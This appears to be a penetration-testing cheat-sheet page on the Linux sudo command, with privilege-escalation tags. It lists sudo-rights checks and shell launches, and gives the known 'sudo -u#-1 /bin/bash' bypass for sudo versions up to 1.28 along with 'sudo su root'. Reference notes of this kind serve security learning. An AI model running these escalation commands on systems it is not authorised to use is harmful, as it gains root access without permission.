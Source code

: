 ```yaml
---
title: Sudo
desc: Linux command to execute any commands as privileges.
tags: [Linux, PrivEsc, SUID]
alts: [Doas]
website:
render_with_liquid: false
---
```


## List of privilege commands for current user

```sh
sudo -l

# Specify the hostname e.g. 'host-name'
sudo -h host-name -l

# Execute via the hostname e.g. 'host-name'
sudo -h host-name /bin/bash
```

<br />

## Privilege Escalation

```sh
# version <= 1.28
sudo -u#-1 /bin/bash
```

<br />

## Misc

```sh
# If you owns the privileges `su` command, you can switch to root user
sudo su root

# Run as other user named 'bob'
sudo -u bob whoami
```